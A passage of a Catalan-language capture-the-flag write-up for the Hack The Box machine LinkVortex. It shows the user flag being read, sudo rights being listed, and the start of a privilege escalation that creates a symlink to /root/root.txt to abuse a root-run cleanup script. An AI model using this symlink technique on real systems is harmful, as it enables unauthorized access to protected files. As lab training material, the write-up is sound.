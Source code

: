 ```
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sun Dec 22 08:16:25 2024 from 10.10.16.40
bob@linkvortex:~$ 
```

Ara obtenim la user flag:

```
bob@linkvortex:~$ whoami
bob
bob@linkvortex:~$ ls -lah
total 28K
drwxr-x--- 3 bob  bob  4.0K Dec 22 08:19 .
drwxr-xr-x 3 root root 4.0K Nov 30 10:07 ..
lrwxrwxrwx 1 root root    9 Apr  1  2024 .bash_history -> /dev/null
-rw-r--r-- 1 bob  bob   220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 bob  bob  3.7K Jan  6  2022 .bashrc
drwx------ 2 bob  bob  4.0K Nov  1 08:40 .cache
-rw-r--r-- 1 bob  bob   807 Jan  6  2022 .profile
lrwxrwxrwx 1 bob  bob    14 Dec 22 08:19 hyh.txt -> /root/root.txt
-rw-r----- 1 root bob    33 Dec 22 07:23 user.txt
bob@linkvortex:~$ cat user.txt 
c0cc57ae11b3e5c9f1f24c8bc676b7c8
```

Ara el següent pas és escalar privilegis per poder obtenir la flag de root. Mirem el que l'usuari bob pot fer amb privilegis de root:

```
bob@linkvortex:~$ sudo -l
Matching Defaults entries for bob on linkvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty,
    env_keep+=CHECK_CONTENT

User bob may run the following commands on linkvortex:
    (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
bob@linkvortex:~$ 
```

Veiem que l'script **`/opt/ghost/clean_symlink.sh`** es pot executar com a root amb qualsevol fitxer amb extensió `.png` i sense necessitat d'introduir una contrasenya. Per tant sembla clar que és això el que hem d'explotar.

Creearem un enllaç símbolic que és com un "accés directe". És un fitxer que apunta a un altre fitxer o directori i amb això el que farem és "enganyar" perquè es treballi amb un fitxer diferent del que s'esperen. Això ho fem creant un enllaç simbòlic a `root.txt` que es troba al directori `/root` (com sempre a HTB), accessible només per l'usuari **root**. La comanda per fer-ho i que crea un enllaç simbòlic anomenat `wizard.txt` que apunta al fitxer `root.txt`.:

`bob@linkvortex:~$ ln -s /root/root.txt wizard.txt
`
